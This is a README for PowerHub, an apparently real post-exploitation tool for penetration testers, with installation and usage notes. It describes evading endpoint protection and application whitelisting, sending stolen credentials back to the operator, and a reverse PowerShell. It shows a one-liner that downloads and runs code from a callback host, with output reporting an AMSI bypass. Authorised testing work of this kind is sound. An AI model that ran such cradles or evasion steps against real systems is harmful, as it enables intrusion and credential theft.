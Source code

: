 PowerHub
========

PowerHub is a convenient post exploitation tool which aids a pentester in
transferring files, in particular code which may get flagged by endpoint
protection. Check out the [Wiki](https://github.com/AdrianVollmer/PowerHub/wiki/)!

![PowerHub Webapp](https://github.com/AdrianVollmer/PowerHub/blob/master/img/powerhub-webapp.png)

During an engagement where you have a test client available, one of the
first things you want to do is run PowerSploit. So you need to download the
files, messing with endpoint protection, disable the execution policy, etc.
PowerHub provides an (almost) one-click-solution for this. Oh, and you can
also run arbitrary binaries (PE and shell code) entirely in-memory using
PowerSploit's modules, which is sometimes useful to bypass application
whitelisting.

Your loot (Kerberos tickets, passwords, etc.) can be easily transferred back
either as a file or a text snippet, via the command line or the web
interface. PowerHub also helps with collaboration in case you're a small
team.

On top of that, PowerHub comes with a reverse PowerShell, making it suitable
for any kind of post-exploitation action.

Here is a simple example (grab information about local groups with PowerView
and transfer it back):

```
PS C:\Users\avollmer> $K=new-object net.webclient;IEX $K.downloadstring('http://192.168.11.2:8000/0');
  _____   _____  _  _  _ _______  ______ _     _ _     _ ______
 |_____] |     | |  |  | |______ |_____/ |_____| |     | |_____]
 |       |_____| |__|__| |______ |    \_ |     | |_____| |_____]
                            written by Adrian Vollmer, 2018-2019
Run 'Help-PowerHub' for help
AmsiScanBuffer patch has been applied.
0
PS C:\Users\avollmer> lhm powerview
[*] /ps1/PowerSploit/Recon/PowerView.ps1 imported.
PS C:\Users\avollmer> Get-LocalGroup | pth -Name groups.json
```

![PowerHub in action](https://github.com/AdrianVollmer/PowerHub/blob/master/img/inaction.png)


Installation
============

PowerHub itself does not need to be installed. Just execute `powerhub.py`.
However, there are a few dependencies. They are listed in the
[requirements.txt](https://github.com/AdrianVollmer/PowerHub/blob/master/requirements.txt).
Install them either via `pip3 install --user -r requirements.txt` or use a
virtual environment:

Run `python3 -m venv env` to create a virtual environment, then use `source
env/bin/activate` to activate it. Now run `pip3 install -r requirements.txt`
to install the depencendies inside the virtual environment.

Python2 is not supported.


Usage
=====

PowerHub has one mandatory argument: the callback host (can be an IP
address). You should also use `--auth <user>:<pass>`, otherwise, a randomly
generated password will be used for basic authentication. The switch
`--no-auth` disables basic authentication which is *not recommended*. The
callback host name is used by the stager to download the payload. If the
callback port or path differ from the default, it can also be changed.

Read `./powerhub.py --help` and the [Wiki](https://github.com/AdrianVollmer/PowerHub/wiki/Usage) for details.


Credits
=======

PowerHub is partially based on the awesome work of zc00l, @am0nsec, mar10, p3nt4.
And of course, it would be nothing without @harmj0y, @mattifestation and the
many other contributors to [PowerSploit](https://github.com/PowerShellMafia/PowerSploit).

Thanks!

Author
======

Adrian Vollmer, 2018-2019

Disclaimer
==========

Use at your own risk. Do not use without full consent of everyone involved.
For educational purposes only.
